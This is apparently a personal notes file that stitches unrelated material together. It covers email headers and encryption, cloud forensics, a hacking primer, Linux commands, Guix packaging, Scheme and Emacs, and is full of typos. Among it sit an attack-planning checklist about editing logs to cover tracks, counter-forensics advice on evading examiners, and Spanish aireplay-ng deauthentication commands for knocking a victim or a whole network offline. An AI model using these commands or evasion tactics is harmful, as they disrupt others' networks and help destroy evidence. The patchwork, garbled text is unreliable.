	Since network traffic is data packets, or chunks of information, Wireshark
	captures and analyzes packets. Instead of making you going line by line
	through each packet to identify headers, routing information, sender , and the
	contents of each packet, Wireshark does all the heavy lifting for you.

	Netcat is another powerful open source program that analyses all network
	traffic including TCP and UDP, inbound and outbound, Ethernet and IP,
	including any service or port you'd like to look at. 

	Netcat has a hexdump utility built into the software and can capture/analyze
	packets.

	E-mail Headers

	E-mails come with information of every computer they pass through to get to
	you. This is added to the header portion of the email information. Sometimes
	the most important information is in the headers. To view the headers,
	however, is not always so simple. Various mail clients will all have different
	ways to view this. THe real trick to reading headers is to know they are read
	backwards. The top of the list is the receiver. Each toure the email travels
	goes with each line until the very last line is the computer or network that
	mail was sent from.

	This is only true if the email sender used their real email address to send
	it. Emails can be spoofed, IP addresses can be faked, and all sorts of other
	tricks might be used to disguise the real sender. THe header can provide some
	clues but don't expect to solve any cases based just on email header
	information.

	Within the email header, there is a segment called "Message-ID." THis set of
	characters is provided by the first email server then the message was sent.
	Since each ID is unique, proper logging can help you identify the location of
	the original sender. Look for the link listed right after the series of
	numbers and letter in the ID:

	THe sender "From" information in the header is configured by the email client
	and should not be considered reliable. Time stamps can also be misleading
	because email clients can be configured to send emails hours or days after the
	email was written. This is a technique known as "Delayed Send."

	Se puede clonar una MAC address conociendola para conectarse a una red, sin
	embargo, para poder tener incluso internet en la red conectada, se debe de
	cambiar a la misma IP. 

	A critical part of a hack is thinking through the entire process before
	touching the keyboard.

	How are you going to get inside your target?

	What controls do you need to disable or monitor during your network visit?

	What do you want and where is the location of your target?

	How are you going to transfer the data you want and where are you going to
	store it?

	What logs and audits needs to be restarted or edited as you exit to cover your
	tracks?

	Where are you planning to keep the new data for your safety and use?

	Social engineering is an excellent tool for gaining access to physical
	locations and networks. Recognizing it is a great way to be immune to (some or
	most of) it,

	Reconnaissance:

	Recon is learning the network vulnerabilitites, the types of servers you will
	be dealing with. What security measures are being used and what are their
	vulnerabilities. Can you turn those security devices to our advantage? Where
	are the network logs and audit logs kept? Are you going to install a backdoor
	for return work? What attack vectors are you comfortable using and will work
	accross each network?

	Software and Hardware vulnerabilities_

	You can locate all known exploits and vulnerabilities on all types of products
	by going to http://www.cvedetails.com or www.cve.mite.org. Both of these web
	sites should be part of your attack methodology as soon as you learn anything
	about the networks you will be dealing with.

	OpenVAS:

	OpenVAS is an open source vulnerability scanner and manager. The organization
	own Network Vulnerability Test (NVT) database is used to update the scanner on
	a daily basis. This "One-stop-shooping" for vulneabilities can be compared
	with CVE, without all the extra technical jargon. The software is a collection
	of tools that you can shape to fit your needs, even if you just want to know
	which vulnerabilities apply to an Apache web server.

	Attack Taxonomy is:::

	Attack Vector::

	Misconfiguration
	Kernel Flaws
	Design Flaws
	Buffer Overflow: Stack, Heap
	Insufficient Input validation
	Symbolic Link
	File Descriptor Attack
	ace Condition
	Incorrect Permission
	Social Engineering
  
	Operational Impact:: 

	Misuse of Resources
	User Compromise
	Root Compromise
	WEb Compromise
	INstalled Malware: Virues as System or MBR, File Infector or Macro
	Spyware
	Trokan
	Work: Mass Mailing, Network Aware
	Arbitrary Code Executiong
	Denial of Service: Host Based, Network Based or DIstributed

	Target::
  
	OS (Kernel/User/Driver), Family, Name or Version
	Network
	Local
	User
	Application as: Servers, Data Bases, Email or Web
	Client.

	Attack Vectos: These are methods to enter networks, using a variety of tools
	or known vulnerabilities. You will often see this term used alongside
	"malware", since attack vectors are mainly viewed as malicious network entry
	points by the security professionals. In our use of the term, we are merely
	showing you the types of ways to enter networks, in a specific category.

	Weapons to Hack Networks

	Blackgole is a package of "mouse click" exploits aimed at giving any hacker
	with any degree of skill, several ways to gain administrator access on a
	network. 

	THC-Hydra works to crack network logon passwords. THe program has an excellent
	use for switches inthe command prompt for LInux. THis program can be run
	through a proxy, through FTP, IRC, HTTP, and several other protocols.

	Metasploit has been around as a penetration testing software in the open
	source community. Metasploit has a large library of add-ons, plug-in, and
	configurations. Many security professionals have this software as part of
	their "have to have" toolbox.

	The Fedora Security Spin is another community project aimed at education and
	the safe testing of secutiry tools. 

	Cain and Able is the ultimate in Script Kiddie software. Cain was originally
	designed as a standalone program to recover passwords from SAM dumps (Windows
	password files). The program is still excellent at performing that same tast,
	just finding anyone running an old version of Windows is difficult. Able was
	added to increase the usefulness of the tool and buil a penetration-testing
	package. Cain and Able together offer really easy access to really insecure
	networks.

	Fyodor.

	Counter Forensics: 

	COunter forensic software tries to perform one or both functions of deleting
	all log files and/or erasing all data that could have been alteredduring a
	network visit. Both methods could ring very loud alarms if not used correctly.
	Counter forensic tools are mainly used on a single computer to remove, hide,
	cover-up, and generally make a forensic examiners job difficult or impossible.

	There are a few issues that need to be considered if you plan on using counter
	forensic software. The first issue is the examiners determination that counter
	forensic software was actually used on your machine. This alione would raise
	suspicion as to why anyone would use this software ifthey idn't have anything
	to hide.
  
	Second, locating and deleting every bit of data remnants from swap files, temp
	directories, pagefiles, and every speck of data that could link you to the
	hack.

	Third, forensic examiners are paid either by salary or by the hour. THey are
	primarily paid to prodiuce enough evidence to convict someone. If you have
	created an evidence recovery challenge that would take too long for any
	examiner to make a case against you, they will likely stop looking at some
	point. Time is money. Take your time to add more work for an examiner ahead of
	time.

	There are several opportunities for a criminal to use counter-forensic methods
	on a device. THese include:

	Many forensic examiners do not know how to deal with advanced users who can
	manipulate the operating system or hide data. The push for new igital forensic
	personnel has created a "shake n bake" process where the person attends a few
	classes and is handed a piece of software o use. This leaves so much
	experience needed to the wil of the software manufactures.

	Forensic software doesn't have a set standard for the scientific process of
	collecting, analyzing, and reporting a repeatable method. Different software
	will show different results. This, results cannot be replicated. 

	There is no common body of knowledge amongst digital forensic experts. This
	means there are several ways to slice an aples. There is no established method
	to conduct a digital forensic examination or even publish the results.

	Digital forensic examiners and software/hardware hasn't been designed for
	field environments. This stuff was created to be used in a nice clean lab,
	with perfect conditions, and all the tools you would ever need.

	A simple alteration to the evidence, such as a delayed file update or system
	time change would render the entire forensic collection useless. The data
	would not be accepted by a court of law because of a simple change.

	Current forensic laws, tools, and techniques do not work in a cloud setting.
	Because of the design in cloud computing, any forensic analysis will involve
	shared reources. What this means is when a forensic examiner attempts to
	retrieve suspected evidente, they are going to also grab data that belongs to
	other people, as well. THIs doesn't mean that an attack against one cloud
	service is going to o unreported or not investigated. The cloud provider will
	conduct their own investigation and look at legal issues. THe crimes that
	involve one account, one suspect, one victim, or one event are going to
	ebtricky because the cloud service may not be willing to help you out.

	Issues with Cloud Forensics:

	No jurisdiction over data. MOst cloud providers have redundant data centers
	located in several places throughout the world.

	Massive increase of cellular devices accessing/loading/creating/altering and
	moving data in the cloud. This means that data could be in several places at
	the same time.

	No celtral role for management to help filter out suspects. You do not own the
	data storage, you are just renting it.

	No acces control to keep data segreagated for a forensic investigation.
	Customers can get to that data at any moment, at any time.

	Lack of physical infrastructure to create a time-line or determine timestamps
	or log events.

	Terms and conditions between organization and Cloud provider may not allow a
	forensic investigation that will meet your requirements.

	Retrievel of evideceevidence without modifying it is extremely difficult.

	Each cloud service handldes their data storage and service conditions
	differently.

	If a crime was commited against the cloud provider, the provider has the
	jurisdiction over that criminal activity. THe cloud customer may have limited
	or no access to cloud data, more so, if the social media site owns that data.
	THis is the case with services such as Facebook, there the content isersu
	driven bur owned by the cloud service.

	Digital forensics is not an easy task, nor it is an easy profession. You must
	be detail oriente, able to document everything you do to the evidence you
	find, think like a criminal and have an enormous amount of patience to locate
	all evidence. Besides that ,you need to be willing and able to be an expert
	witness, if called to testify in a case.

	ON the other hand, some education and experience with forensics techniques and
	tools can help you maintain the privacy and confidentiality you've been losing
	fast in our digital world.

	If you were brave enough to complete this lesson, you know we discussed where
	media comes into play as source to hide data, boot up a computer and hide
	evidence within data or within the operating system. You were introduced to
	some very tricky places that data can be hidden and how to thwart forensic
	experts.

	Digital forensics is filled with areas that require expert knowledge or at
	least a fairly good understanding of that area. THis lesson was designed to
	provide you a taste of what you can expect if you want to work in this amazing
	field - or just be an informed computer user.

	Hacking email:

	Overall: How Email works:

	Email is created either using an email client such as Outlook, Mail, Eudora,
	Pegasus or Thunderbird. Or on a web service like Yahoo Mail, using a web
	interface. It's almost funny how much email mimics "snail mail," because your
	message is enclosed in an envelope.

	SMTP Envelope:

	R: 220 www.domain.net ESMTP Postfix 
	S: HELO mta.examples.com
	R: 259 Hello mta.examples.com, please to meet you

	S: MAIL FROM: <joe@examples.com>
	R:250 joe@domain.net... Sender ok

	S: RCPT TO: <sue@domain.net>
	R: 250 sue@domain.net ... Recipient Ok

	-----------------------------------------------------

	S: DATA
	R: 354 End data with "." on a line by itself

	Message Header:

	S: Subject: Wanna catch a drink?
	S: From: joe@example.com
	S: To: sue@domain.net
	Message Body
	S:
	S: Hey sue,
	S: How have you been ....
	S: .........

	----------------------------------------------------
  
	R:250 Ok:queued as 31337

	S: QUIT
	R: 221 Bye

	You are sent to a mail server called a Mail Transmission Agent (MTA), which
	queues you for transmission. Modern mail systems do this tipically via
	encrypted SMTP (Simple Mail Transport Protocol) since they require
	authentication to prevent abuse, and encryption protects credentials from
	disclosure, along with the email contents. MTAs accepting email (you) without
	some sort of authentication are called "open relays" and tend to be abused by
	senders of junk mail, also known as UCE (Unsolicited Commercial Email) or
	spam.

	For each address ("recipient") in the message, the MTA first checks if a
	recipient is local (right on the same computer). If not, the MTA uses a
	so-called MX record to find the server for the relevant domain. If there is no
	valid receiving host found, a failure message for that specific address if
	sent back to the sender.

	The MTA attempts to deliver you to each address. If this fails, the MTA
	re-queues the message to try again later until timeout occurs and a delivery
	failure message is returned, usually in 48 hours. So you have to hang around
	for about two datys. This delivery may initially be deliberatly delayed by the
	receiving MTA as an anti-spam technique: spam software is typically less
	intelligent and will not queue an retry delivery (the technique is called
	greylisting). By defailt, this delivery takes place via unencrypted SMTP.
	Encrypted connections are the exceptions rather than the rule.

	Optionally, a mail relay picks you ip and routes you to your final
	destination. This typically happens in environments with spam and virus
	filtering and where security dictates a layered model, such as enterprise or
	government networks.

	The receiving MTA expands the address if it is an alias or a mailing list.
	These do not need to be in the same domain: an alias can expand into a whole
	new email address on another server. After expansion, you are re-queued for
	further delivery.

	When an email address refers to a local mailbox, you are now moved into that
	mailbox (unless the mailbox has exceeded its storage quota). 

	You are then picked up via the POP3 or IMAP protocol by webmail or a mail
	client. Here too, the connection is generally encrypted (with SSL) to prevent
	leaking login credentials; the protocols are POP3S and SSL IMAP. POP3 is a
	"pick up" process: it downloads messages, then deletes them from the server
	(this can be date driven). IMAP is a synchronization process that seeks to
	keep clients' mailboxes idential to what is on the server account (for mobile
	devices this is typically within a date rance to preserve device storage),
	which makes IMAP perfect to maintain email on multiple devices at the same
	time.

	FInally, most email clients now have junk mail detection built in, usually
	based on Bayesian, pattern scoring principles. 

	The Three Stages of Spam Filtering:

	Receiving servers first check on origin: an SMTP connection is refused from
	blacklisted servers.

	When a connection is accepted, email is then scanned for content. Some
	organizations are concerned they may have a message falsely marken as junk
	mail; they may require suspect email to be marked as junk, but still
	delivered.

	Finally, most email clients now have junk mail detection built in, usually
	based on Bayesian, pattern-scoring principles.

	You start at one place and may or may not end up at another place, depending
	on whether:
  
	You have the correct address
	You are too big
	You are spam
	The receiving mail box is too small
	You are too old
  
	When working in Linux and UNIX in general, *dig* is your best friend for
	testing DNS settings. MX records are very important to email delivery, so
	let's have a look at them briefly. MX records are for email, and have no
	relationship to websites for the same domain. 

	aireplay-ng -0 0 -a (MAC address de Access Point) -c (MAC de la víctima) -x
	150 (host)(127.0.0.1)(wlan) 
	para desconectar a alguien de una red.
  
	The web server of "domain.com" may be a completely different system from the
	mail server, which is why those DNS recors are identifies differently. The way
  
	dig <domain name> MX

	tells dig to extract only mail exchange records from the relevant domain.

	dig <servername> <type>

	Para tumbar toda la red es :

	aireplay-ng -0 0 -a Mac AP -x 150 (host)(127.0.0.1:1)(wlan0mon)

	As an examples, the MX records for Google's gmail.com domain are:

	;; ANSWER SECTION:

	gmail.com.           893   IN   MX   10 alt1.gmail-smtp-in.1.google.com
	-----------------------------------------------------------------------

	There are three values in each line that are of interest. The "893" is a time
	to live value (how many seconds, or how many routers to hop, depending) you
	will find in every DNS record- it indicated how long a DNS is allowed to cache
	the record before the information is considered stale and has to be retrieved
	again.

	The "10" in the top line, and numbers in the subsequent lines are "preference"
	values, followed by a Filly Qualified Domain Name (FQDN) of a system prepared
	to handle email. THe preference values are used by the MTA to decide which of
	the machines in the MX records list to try first, and which to contact next,
	should the first one fail or refuse email. If no servers is found to accept
	the email, a failure message is sent back to the email originator (using the
	"reply-to" or "from" information). Lower values indicate preferred MTAs. Thus,
	the last entry in the list above will be tried first, with the rest as
	fallback if the first system fails or is overloaded.

	A service can also offer records with identical preferences; here is the
	response from yahoo.com where the preferences evalue is set to "1" on all
	records.

	Doing this means the email load will be distributed over the 3 system equally.
	THe very low TTL value of "48" suggests this DNS entry is dynamicaly
	controlled, a sign of an active load balances. Load balancers fo pretty much
	that their name says they do: they make sure traffic (inbound, outbound, high
	priority, low priority) gets the level of attention it deserves.

	Last but not least, you can also identify whether the receiving domain uses
	mail filtering. 

	THe Risky Business of Email Composition:

	Disclosure: Tink about whom you are emailing, why and how. Not only is email
	transimssion by default insecure when it leaves the local MTA, you are also
	releasing information. THe use of encryption such as PGP, GPG and S/MIME
	requires both sides to be similarly equipped, and is generally perceived as
	very complicated to use. An alternative way to protect the transmission would
	be the use of the same email provider: that way, the message never needs to
	travel accross the Internet in an unencrypted form. This is where the how
	question appears: are you sure your provider or that of the recipient (or one
	or the other of your fovernments) is not listening in? Take that into
	consideration when you handle something confidential.

	Rerouting: An email address does not need to remain in the domain it is sent
	to, but could be redirected elsewhere. As an example, the US company pobox.com
	does not sell mailbox services, only aliases. THe main risk is that your email
	may th sutravel over various, different legal jurisictions before it arrives
	at its destination. In our example, a pobox.com alias will always go via MTAs
	in the US first, and is this at risk of interception under the ongoing abuse
	of the US PATRIOT Act.

	Privacy violations: A recipient using services such as Facebook or Google
	exposes his email to automated scanning of content, even though the sender
	never gave that permission!.

	DIstribution lists: if you use an email distribuiton list, use the BCC (Blind
	Carbon Copy) field for it. Email addresses in the TO : and CC: field are
	visible to every recipient of the email, and could end up giving away the
	contents of your email list to an uncontrolled third party, and expose your
	recipients to spam and other junk mail.

	Conflict: AN email is like a letter, but is written and sent much more quicly,
	which leaves you less time to consider its contents. 

	Misaddressing: ONe of the main causes of emai lgoing astray is misaddressing.
	THis is a consequence of mail clients trying to autofill an adress from the
	characters types by the user. Always check if the recipient is indeed the
	intended one.

	Multiple recipients: When you send email to more than one person, make sure
	the content is appropiate for all recipients. Also, it is good practice and
	ethically correct to visibly copy someone in if you use their information or
	tal about them.
  
	Legal issues: Disclaimers under your email may look impressive, but have no
	legal value other than a copyright notice. You sent the email, so you cannot
	disavow its content (to a degree, of course you could always claim its sender
	was spoofed) and you cannot prescribe what an incorrect recipient should do
	with an email because you probably don't have a contractual relation with
	them.

	It's possible to dañar a router with a lot of petitions per second when doing
	a MAC hack
  
	Receiving Email:

	Mail clients contact the servers on which mailboxes are stored, and check if
	the top message count has not changed. SOme clients do this periodically (for
	instance, every 30 minutes), some do it manually (usually to preserver
	bandwidth) and some maintain a simple permanent connection with the mail
	server so that they receive an update as soon as new email arrives (called
	push notification).

	When an email is inbound, the mail client or webmail environment will pick
	this up via POP3 or IMAP. Mobile clients usually download only the header and
	a small portion of the message to save bandwidth, leaving it up to the user to
	decide if the whole message should be picked up, left for later or deleted.

	Si se hace el ataque de MAC por 1 hora aprox, es capaz que el router se
	restaure a valores de fábrica.

	Cryptography Protecting Contents From Disclosure

	The simplicity of email makes it also vulnerable. THe sender cannot be sure
	that an email is not altered on its way to the recipient, there is no way to
	make sure that only the receiver can read it and a receiver cannot be sure it
	is actually sent by the person listed in them email as the sender.

	One way to ensure confidentiality is to encrypt a document before attaching it
	to an email. For example, it is possible to encrypt text documents and
	spreadsheets like those produced by OpenOffise, and PDF files support
	encryption too. However, applying cryptography to email itself is easier, and
	also allwos for the email contents to be secured.

	Email headers still need to be left in cleartext so that the mail servers can
	process and deliver the email.

	Email security can be provided in two different ways: using PGP (or GPG) and
	S/MIME. Both use encryption to assure:

	Confidentiality: can only the intended recipient(s) read this email?
	Integrity: Is the email content unchanged?
	Authenticity: Did the email really come from a particular sender?

	In general, authenticity and integrity are combined in electronically signing
	an email: the email gets checksummed, and the result is encrypted and embedded
	in an electronic signature that could only have been made by the person who
	holds the right private key.

	Confidentiality is assured by using someone's public key to encrypt the
	message body, so that only the holder of the correct private key can decrypt
	and read it. For extra assurance, such a message can be signed too.

	You should keep in mind that encrypted email is rather uncommon, especially in
	an era where people voluntarily let their email be scanned by comanies such as
	Google and Facebook. In some countries, you must make sure that you have the
	means to access your email when athorities demand this of you, for instance in
	the US by the TSA when you cross the border, and in the UK when served with
	warrant under the Regulation of investigative Powers Act.

	PGP and GPG:

	PGPG stands for Pretty Good Privacy.

	You are more likely to come across the Open Source version called GPG (GNU Privary Guard). GPG uses only open, publicly evaluated algorithms.

	GPG works on the principle of public/private key management, which means that
	keys have a PUBLIC part you can give to anyone who wants to send you encrypted
	email, and a PRIVATE part you have to keep sectret, which is the only way to
	decipher the message you have received. THe combination of private and public
	key is called a key pair, and it is generally the first thing you generate
	when you install GPG on a machine. THe key pair is protected by a password so
	that it cannot be altered by anyone but the owner. Alterations may be
	necessary because you want to change the email addresses the key supports, or
	want to make use of other functions.
	Because you need someone's public key to encrypt a message to them, servers
	such as pgp.mit.edu exist where you can download the key or keys associated
	with a specific email adress and upload your own. It is possible that keys
	have expired or password have been lost, so always use the latest key or eve
	better, ask your cecipient to send theirs and confirm the key fingerprint (
	ashort version of the checksum).

	MIME:

	MIME (Multi-Purpose Internet Mail Extensions) is an email extension of the
	SImple Mail Transfer Protocol (SMTP). MIME gives you the ability to transfer
	different types of media and data like audio, video, images, compressed files,
	and applications as attachments to email. The MIME header is inserted at the
	beginning of the email and the receiving email client uses this information to
	determine which program is associated with the attached file. MIME in itself
	does not provide any security to emails or attachments.

	S/MIME (Secure/Multipurpose INternet Mail Extensions) is a protocol that adds
	digital signatures and encryption to internet MIME message attachments. Using
	digital signatures, S/MIME allows for authentication, message integrity and
	non-repudiation of origin. "non-repudiation" means you can't deny you sent it.

	S/MIME provides privary and data security (using encryption) to emails that
	use this protocol. It is both a security tool and a security issue since users
	can send sensitive data or secrets as attachments to outbound emails in order
	to avoid detection. THerefore, the use of S/MIME in a corporate setting should
	be carefully monitores on the email servers.

	Key Trust:

	How do you ensure that a key for an emil recipient is really theirs, and not
	uploaded by someone else? The solution to this is that keys can be signed by
	others. Imageine you already have the key of someomne else who you trust, and
	who knowns the person you want to email with. THat other person can sign the
	public key, which means you invest a bit more trust in the key, provided you
	know this other person. THis is known as inherited trsut. You can also find
	another way to get in touch with the person and either receive their full
	public key, or receive the key "fingerprint" - a checksum of the key which is
	quick to verify. On a key server, a key can also have an ID - yet another
	checksum serving the same goal.

	Sending An Encrypted Email using GPG:

	Most email clients support plugins that mek the handling of keys and
	encryption easier. The best thing to do is to check beforehand if you
	recipient has a public  key and get it from a key server, or from the
	recipient themself.

	THen, compose your email as normal (once again we strongly recommend plain
	text email over HTML). add any attachments and tell your email client to
	encrypt and send the email. If you decided to sign the email, the email client
	will use your private key to sign the message first, then use the public key
	of your recipient to encrypt the email and any attachments. If you protect
	your key pair with a passphrase, your email client will ask for that
	passphrase.

	Fluxion is used to scan nearby networks.

	If CIPHER = CCMP:

	CMP (Cryptography)

	Counter MOde Cipher Block Chaining Message Authentication Code Protocool is an
	encryption protocol designed for Wireless LAN products that implements the
	standards of the IEEE 802.11i amendment to the original IEEE.802.11 standard.
	CCMP is an enhanced data cryptographic encapsulation mechanism designed for
	data confidentiality and based upon the Counter Mode iwth CBC-MAC (CCM Mode)
	of the Advanced Encryption Standard (AES) standard.

	CCMP is the standard encryption protocol for use wit hte Wi-Fi Protected
	Access II (WPA2) standard and is much more secure than the Wired Equivalent
	Privacy (WEP) protocol and Temporal Key Integrity Protocool (TKIP) of Wi-Fi
	Protected Access (WPA). CCMP proides the following security sevices:

	Data confidentiality: ensures only authorized parties can access the
	information.

	Authentication: provides proof of genuineness of the user

	Access control in conjunction with layer management.

	Because CCMP is a block cipher mode using a 182-bit key, it is secure against
	attacks to the 2^64 steps of operation. Generic meet-in-the-midle attacks do
	exist and can be used to limit the theoretical strength of the key to 2^n/2
	(where n is the number of bits in the key) operations needed.

	Known attacks:
  
	For cryptographers, a cryptographic "break" is faster than a brute-force
	attack - i.e, performing one tril decryption for each possible key in sequence
	(see Cryptanalysis). A breack can thus include results that are infeasible
	with current technology.

** Operating Systems
*** GNU/Linux
**** Commands

     #+BEGIN_SRC bash

     curl
     ## Is the HTTP tool kit
     id
     ## Informations about groups, or a target and DNS
     whois
     ## Information about a target by its DNS or IP
     ping
     ## Response for a reachable network, and information about it
     dig 
     ## DNS records directly
     host
     ## IPv4, IPv6 and mail of a target
     nslookup
     ## Similar functionalities
     traceroute
     ## Information about a target

     #+END_SRC

***** Networking

      #+BEGIN_SRC bash

    ifconfig ## configure network interface
    route ## show/manipulate the IP routing table
    cat /etc/resolv.conf ## displays DNS information
    cat /etc/network/interfaces ## displays the network interface configuration
    cat /etc/hosts ## static values for hostnames lookups
   'echo "1" > /proc/sys/net/ipv4/ip_forward' ## allows ipv4 forwarding
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 9000
    ## Redirects all 80 port traffic to port 9000
     iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT
     --to-port 53
    ## Redirect UDP port
   
      #+END_SRC

      Another ways to set a wireless card on monitor mode is:

      sudo iw dev # to check wireless interfaces.

      sudo ip link set IFACE down

      sudo iw IFACE set monitor control

      sudo ip link set IFACE up

      where IFACE replace with the actual name of your wireless interface.

      sudo iw dev

      It may now show your device to be type monitor.

      To return to managed mode, you can make this:

      sudo ip link set IFACE down

      sudo iw IFACE set type managed

      sudo ip link set IFACE up

      You can also use iwconfig for this:

      sudo ifconfig IFACE down

      sudo iwconfig IFACE mode monitor

      sudo ifconfig IFACE up

      and the same for managed mode.

****** Script to check all up IP addresses on a network
      
       #+BEGIN_SRC bash

    #!/bin/bash

    is_alive_ping()
    {
    ping -c 1 $1 > /dev/null
    [ $? -eq 0 ] && echo Node with IP: $i is up.
    }
   
    for i in 192.168.0.{1..255} 
    do
    is_alive_ping $i & disown
    done

       #+END_SRC

***** Hardware Checking

      Hostnames are important, in /etc/hosts you can change this

      To check every hardware on a GNU/Linux PC use:

      #+BEGIN_SRC bash
	lspci
	## Every device connected to the pc
	lspci -v 
	## Devices information
	lspcu 
	## CPU specific information
	uname -a
	## System information as hostname, RAM and kernel
	lsusb 
	## USB devices
	lsb_release -a
	## Distribution Specific Information
	dmesg
	## Print or control the kernel ring buffer
	lsmod
	## Shows the status of modules in the Linux kernel
	ls -lisart /var/log
	## The location of the actual logfiles

      #+END_SRC

*** Guix System

    To install, 'guix install package'
    To upgrade, 'guix upgrade'
    To pull the latest packages upstream, 'guix pull'
  
    'guix pull' a lot

    Guix channels are good for more packages

    Learn some Guile, well, scheme
  
    Read some package definitions, a simple one, and a 'big' program one

  
    - define-public :: Define una variable pública, esto nos permite
                       referirnos a la definición por el nombre.

    - name :: El nombre de el paquete, no debe de ser confundida con el
              nombre de variable con el que le es definido en
              define-public, son el mismo nombre debido a que así deben de
              ser referidos entre ellos. Sin embargo, el nombre de
              'define-public' puede ser diferente.

    - version :: La version de el paquete, debe concordar con el paquete descargado.

    - source :: Aquí, comenzamos a definir el lugar de descargado de el
		paquete, puede ser tanto un página web, como un
		repositorio Git, por ejemplo.

    - origin :: Definimos el origen del cual será descargado el paquete.

		- method url-fetch :: Define que el método utilizado en la
			descarga de este paquete, será mediante una página web, un URL.

    - string-append :: Aquí definimos que la página o URL por la cual
                       será descargado el paquete, utilizando el metodo
                       URL, será la unión de mirrot://gnu/hello/hello-",
                       con 'version', y la '.tar.gz'. Esto quiere decir
                       que. el URL será:
                       mirror://gnu/hello/hello-2.10.tar.gz.

    - sha256 :: Comenzaremos a definir el hash de este paquete. 

    - base32 :: Hash de el paquete, si el hash es diferente, guix no
		instalará el paquete.

    - build-system gnu-build-system :: Procedimientos por los cuales el
	 paquete será instalado.

    - sinopsis :: Breve descripción de el paquete.

    - description :: Descripción extendida de el paquete, por si se
                     desea más información, o la sinopsis no fue lo
                     suficientemente clara.

    - home-page :: La página web en donde está alojada el proyecto.

    - license :: La licencia a la cual el proyecto esta sujeto.

    Every package definition will need to 'use' some modules for it to
    be usable and exported, to the 'hello' package:

    (use-modules (guix packages)
    (guix download)
    (guix build-system gnu)
    (guix licenses))

    - use-modules :: Aquí definimos los módulos que son necesarios por el
                     paquete, la razón por la cual la definición de
                     paquete 'hello' no los tiene, es debido a que ya
                     están añadidos.

    - guix packages :: Al importar este módulo, nos da todo lo necesario
                       para un paquete de guix.

    - guix download :: Nos da la posibilidad de usar 'source'

    - guix build-system gnu :: Nos brinda la posibilidad de llamar las
	 variables "build-system gnu-build-system", con los cual
	 construiremos los paquetes. Existen diferentes métodos de
	 construcción, por ejemplo, para la construcción de un paquete
	 de emacs, o de ruby, es diferente a un paquete normal.

    - guix licenses :: Nos da la posibilidad de referirnos a las
                       licencias, por ejemplo, gpl3+ es reconocido
                       debido a este módulo. De otro modo, nos daría un
                       error de: dpl3+ unbounded variable.
	       
    To download a package from a upstream mirror: 
    'guix download mirror://gnu/hello/hello-2.10.tar.gz'

    (define-public) is only necessary if you want to make your code,
    well, public, if you only want to install the package, don't use it
    and install it locally.

    Why use guix command instead of wget or curl?, because guix
    download generates a hash. 

    to install from file: guix package --install-from-file=my-hello.scm

    Guix manages a lot of directory 'problems' by creating PATHS

    You can add package definitions to a directory and add that
    directory into the variable 'GUIX_PACKAGE_PATH', and the packages
    will be 'watched' and can be installed using guix package -i

    export GUIX_PACKAGE_PATH=~/Paquetes-de-Guix/ for this ^

    If you want to add a channel, a '.scm' file has to be always in the
    directory '~/.config/guix/'

    (list (channel
    (name 'guix)
    (url "https://example.org/my-guix.git")
    (branch "master")))

    Good example for adding a channel by url ^

    (list (channel
    (name 'guix)
    '(url "file:///home/$USER/donde-estan-tus-paquetes")
    (branch "master")))

    By file in your pc ^

    Adding a channel will always follow a 'guix pull'

    If the USB has an installation errr, restart, mount /mnt system, fix
    /etc/config.scm if necessary, and run:

    'herd start cow-store'
    'guix system init /mnt/etc/config.scm /mnt'

    guix environment

    For Bug reporting, mail 'bugs-guix@gnu.org'

    In Bug reporting, you have to add to your message:

    - guix describe :: For reproducibility purposes
    - Related information :: A problem is about the kernel, or it may be
	 related? give 'uname -r'
    - What you wanted it to happend :: After what you did
    - What happenned :: The bug itself
*** Hyperbola GNU/Linux  

    Hyperbola = Arch snapshots + Parches de Debian y principio de
    desarrollo + GNU FSDG + Campaña de Init Libre + Privacidad + LTS +
    Stability

    Hyperbola is LTS and uses Debian patches as well as having the
    versatily of archlinux, so the installation isn't simple

    Hyperbola is libre and also keeps a good filosofy, and uses openrc
    as init system since systemd breaks compatibility. As well as
    having a good look for privacy and minimalism on its packages, so
    they use xenocara instead of xorg since xenocara is 'stable' and
    some other reasons, as well as they plan to move from pulseaudio to
    sndio, since sndio has more support, is more stable and doesn't
    break compatibility as pulseaudio
** Programming
*** Scheme

    Everything is scheme is parenthesis, for example, to display
    something:

    (display (string-append "Hello " "Guix" "\n"))

    string-append 'combine' strings, you can also just put "Hello Guix"
    without the string-append parenthesis.

    For an anonymous function, one that will be executed once, use
    lambda:

    ((lambda (x) (* x x)) 3) defines the function that multiplies 3 or
    the number added, the result, 9

    Variables are defined by the '(define)' parenthesis

    (define a 3) defines the variable 'a' as 3

    (define square (lambda (x) (* x x))) defines a variable that returns
    the number given * 2, su using (square a) gives us 9
  
    A list can be defined using (list)

    (list 2 a 5 7) gives us 2, 3, 5 and 7 if a = 3

    If you don't want the 'a' variable, you can use quote, which tells
    scheme to not evaluate

    '(list 2 a 5 7) gives us 2, a, 5 and 7

    If you want to just evaluate specific thinks, use quasiquotes:

    `(list 2 ,a 5 7), this will evaluate everything after the ','

    To defines several variables, use let
  
    (let (x 2) (y 3)) defines two variables, you can also use let's
    brother 'let*'. which allows use keywords and optional arguments in
    the variables
** Emacs
*** Org-mode

    If we want to make a presentation in org and export it to PDF, we
    can use beamer, which allows us to make different diapositives:

    We'll have to install texlive in our distributioon, as well as know
    that every '*' or tree of org will be considered a diapositive.

    The org file should have this at the beginning for it to export
    correctly:

    #+BEGIN_SRC 

     #+options: ':nil *:t -:t ::t 
     #+options: <:t 
     # #+options: H:3 # Este parámetro corrije Outline pero daña títulos y diap
     #+options: \n:nil
     #+options: ^:t
     #+options: arch:headline 
     #+options: author:t
     #+options: broken-links:nil c:nil creator:nil d:(not "LOGBOOK") date:t e:t
     #+options: email:t f:t inline:t num:t p:nil pri:nil prop:nil stat:t tags:t
     #+options: tasks:t tex:f timestamp:t title:t toc:f todo:t |:t
     #+title: Título de la presentación
     #+subtitle: Descripción breve de la presentación
     # ¡Al gusto del contador y del gerente!
     #+author: Autor de la presentación
     #+date: Fecha de la presentación
     #+email: E-mail de el autor
     #+language: es
     #+select_tags: export
     #+exclude_tags: noexport
     #+creator: Emacs 26.2 (Org mode 9.2.5)
     #+startup: beamer
     #+LaTeX_CLASS: beamer
     #+LaTeX_CLASS_OPTIONS: [bigger]

    #+END_SRC

    When we want to look how is it going, use C-c C-e l P and it will
    export the file to pdf

    Adding an image to an org file is as simple as using:
  
    #+BEGIN_SRC

     [[./image.png]]

    #+END_SRC

    This way, we'll refer to a file in the directory the org file is
    in, doesn't matter if it is .png or .jpg

** Git

